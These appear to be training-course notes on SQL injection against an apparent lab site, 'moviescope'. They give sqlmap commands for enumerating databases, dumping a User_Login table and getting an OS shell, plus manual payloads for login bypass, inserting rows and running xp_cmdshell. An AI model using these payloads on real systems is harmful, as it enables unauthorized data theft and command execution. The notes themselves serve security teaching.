 # 15 - SQL Injection

## Module 15 - SQL Injection

* SQLMAP Extract DBS
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="xookies xxx" --dbs`
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="xookies xxx" --data="id=1&Submit=Submit"``--dbs`
* Extract Tables
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope --tables`
* Extract Columns
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope -T User_Login --columns`
* Dump Data
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope -T User_Login --dump`
* OS Shell to execute commands
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" --os-shell`
* Login bypass
  * `blah' or 1=1 --`
* Insert data into DB from login
  * `blah';insert into login values ('john','apple123');`
* Create database from login
  * `blah';create database mydatabase;`
* Execute cmd from login
  * `blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --`

### **Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap**

* Login a website
* Inspect element
* Dev tools-\&gt;Console: document.cookie
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" –dbs**
  * **-u: Specify the target URL**
  * **--cookie: Specify the HTTP cookie header value**
  * **--dbs: Enumerate DBMS databases**
* Get a list of databases
* Select a database to extract its tables
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" -D moviescope –tables**
  * **-D: Specify the DBMS database to enumerate**
  * **--tables: Enumerate DBMS database tables**
* Get a list of tables
* Select a column
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" -D moviescope –T User\_Login --dump**
* Get table data of this column
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" --os-shell**
* Get the OS Shell
* TASKLIST





### Additional Resources

{% embed url="https://medium.com/hacker-toolbelt/dvwa-1-9-viii-blind-sql-injection-with-sqlmap-ee8d59fbdea7" %}

[https://www.youtube.com/watch?v=IR1JsaSQLMc](https://www.youtube.com/watch?v=IR1JsaSQLMc)
